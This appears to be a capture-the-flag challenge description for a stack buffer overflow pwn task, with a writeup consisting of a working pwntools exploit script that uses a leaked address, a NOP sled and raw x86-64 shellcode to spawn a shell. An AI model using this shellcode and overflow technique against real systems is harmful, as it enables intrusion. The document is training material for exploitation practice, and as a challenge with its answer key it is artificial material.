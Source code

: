 # Name
Harder BOF

# Description
Here is a slightly harder pwn challenge that requires you to know how to inject shellcode into a process via a stack buffer overflow. If you're having trouble, do some research on buffer overflows in C.

TODO: Put a netcat command here telling them which server to connect to in order to test the exploit.

# Difficulty
Medium

# Flag
I haven't programmed a flag into this yet. Basically, after they exploit the program, they should get a shell into the server running this program. There should be a flag.txt file on that server in the same directory as the program, which they should be able to cat. Whoever is setting up this server can just put whatever they want into the flag.txt file and have that be the flag.

# Hints
None

# Author Name
Nihaal Prasad

# Writeup
This should be pretty self-explanatory since it's just a basic buffer overflow. Just run this exploit.
```python
#!/usr/bin/env python3
from pwn import *

# Open up the process
p = process("./bof_harder", stdin=PTY)
#p = gdb.debug("./bof_harder", "b *main+224")

# Ignore the first line
p.recvline()

# Second line contains the address
addr = int(p.recvline(), 16) + 9 - 152
print(addr)
addr = p64(addr)

# Generate the payload
shellcode = b"\x48\x81\xec\xf4\x01\x00\x00\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05"
nops = b'\x90'*(152 - len(shellcode))
payload = nops + shellcode + addr

# Trigger the buffer overflow
p.sendline(payload)
p.interactive()
```
